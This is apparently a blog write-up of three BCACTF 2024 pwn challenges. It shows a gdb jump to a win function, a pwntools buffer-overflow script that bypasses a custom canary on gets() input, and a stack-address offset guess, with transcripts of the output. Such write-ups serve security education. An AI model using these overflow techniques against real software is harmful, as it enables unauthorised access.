 ```yaml
---
title: 'some bcactf 2024 pwn writeups'
description: 'Some writeups for bcactf 2024 pwn category'
date: 2024-06-25
tags: ['pwn', 'ctf', 'c', 'writeup']
image: './bca.png'
authors: ['jp']
---
```


# Background Information
I went to this competition as BT Lazy Bums, we did a lot worse than we expected but what could we do? I got lazy so I'm just gonna post the pwn challenges I did.

## Binary Exploitation

### Inaccessable
> I wrote a function to generate the flag, but don't worry, I bet you can't access it!
This felt more like a reverse engineering challenge, but the solve is simple.

Load up gdb and do `info functions`

```bash
0x0000000000400536  c
0x0000000000400599  f
0x00000000004005ea  win
0x00000000004006b8  main
```

So we have a win function. And the hint said to just jump to it. Ok.

```bash
gef➤  jump win
Continuing at 0x4005ee.
bcactf{W0w_Y0u_m4d3_iT_b810c453a9ac9}
[Inferior 1 (process 39665) exited with code 046]
```


### canary keeper
> My friend gave me this executable, but it keeps giving me errors. Can you get the flag?

Based on the title, the solution for this problem is to bypass the "canary", which is basically an alarm that will close a program once it detects a buffer overflow.

Let's look at the code:

(binary ninja)
```c

int32_t main(int32_t argc, char** argv, char** envp)
{
    int64_t var_48;
    __builtin_strncpy(&var_48, "FLAG", 0x40);
    int32_t var_4f;
    __builtin_strncpy(&var_4f, "canary", 7);
    printf("Enter a string: ");
    void buf;
    gets(&buf);
    int32_t rax_3;
    if (check_canary(&var_4f) == 0)
    {
        puts("Buffer overflow detected!");
        rax_3 = 1;
    }
    else if (check_flag(&var_48) == 0)
    {
        printf("Flag: %s\n", "FLAG");
        rax_3 = 0;
    }
    else
    {
        puts("No changes in flag detected!");
        rax_3 = 1;
    }
    return rax_3;
}

```

So as we can see that the input size is 73, and that there is a custom canary coded. What we can do with this is to overflow the binary, but append the canary so that it passes the check.

Here's our tactic: 

1. Input 73 A's and append the binary string "canary" 
2. Add a four character anything. I'll just use flag
3. Get the flag.

Unfortunately I didn't realize that you had to use null bytes in order to allow the canary to bypas the check with data after it. Two days to realize that.

So here's the solve script:

```python
from pwn import *
from pwn import p64
elf = ELF('./provided')


#its 73 space in the input(?)

if args.REMOTE:
    r = remote('challs.bcactf.com', 32101)
else:
    r = process(elf.path)


payload = b'A' * (73)
#does the canary check(?)
payload += b'canary'
payload += b'\x00'
payload += b'flag'

#payload += p64(0x63616e617279)

print(payload)
r.sendline(payload)
print(r.recvall())

```

And we get the flag.

```bash
[*] '/home/jake/bcactf/canary/provided'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challs.bcactf.com on port 32101: Done
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAcanary\x00flag'
[+] Receiving all data: Done (58B)
[*] Closed connection to challs.bcactf.com port 32101
b'Enter a string: Flag: bcactf{s1mple_CANaRY_9b36bd9f3fd2f}\n'
jake@edgygamer:~/bcactf/canary$ 
```

### pwnage
> It's either a bug, a hack, an exploit, or it's pwnage. Let this challenge stand as one of the first of many stairs to mastery over that which can only be described as pwn.

Let's look at the source code provided. 

```c

int main() {
    // Hint: how do these values get stored?
    void* first_var;
    char* guess;
    char flag[100];
    load_flag(flag, 100);

    puts("Welcome to the most tasmastic game of all time!");
    wait_for(3);
    puts("Basically it's just too simple, I've put the");
    puts("flag into the memory and your job is ... to");
    puts("guess where it is!!");
    wait_for(2);
    puts("Have fun!");
    wait_for(1);
    puts("Oh and before you start, I'll give you a little");
    puts("hint, the address of the current stackframe I'm");
    printf("in is %p\n", (&first_var)[-2]);
    wait_for(3);
    puts("Okay anyway, back to the game. Make your guess!");
    puts("(hexadecimals only, so something like 0xA would work)");
    printf("guess> ");

    guess = read_pointer();

    wait_for(3);

    puts("Okay, prepare yourself. If you're right this");
    puts("will print out the flag");
    
    wait_for(1);
    puts("Oh, and if your wrong, this might crash and");
    puts("disconnect you\nGood luck!");

    printf("%s\n", guess);

    return 1;
}
```

Ok, so it prints out the current stack frame of first_var. It then asks for a guess in hexadecimal format, which is a guess for the stack frame of the flag.

We can look at this part specifically:

```c
void* first_var;
char* guess;
char flag[100];
load_flag(flag, 100);
```

So all we need to do is "shift" upwards by adding bytes to the stackframe. Simple. I kind of guessed the offset, but it seems to be 0x20 from the provided stackframe.

```bash
Welcome to the most tasmastic game of all time!
 . . .
Basically it's just too simple, I've put the
flag into the memory and your job is ... to
guess where it is!!
 . .
How fun is that!
 .
Oh and before you start, I'll give you a little
hint, the address of the current stackframe I'm
in is 0x7ffeb79507b0
 . . .
Okay anyway, back to the game. Make your guess!
(hexadecimals only, so something like 0xA would work)
guess> 0x7ffeb79507d0
 . . .
Okay, prepare yourself. If you're right this
will print out the flag
 .
Oh, and if your wrong, this might crash and
disconnect you
Good luck!
bcactf{0nE_two_thR3E_f0ur_567___sT3ps_t0_PwN4G3_70cc0e5edd6ea}
```

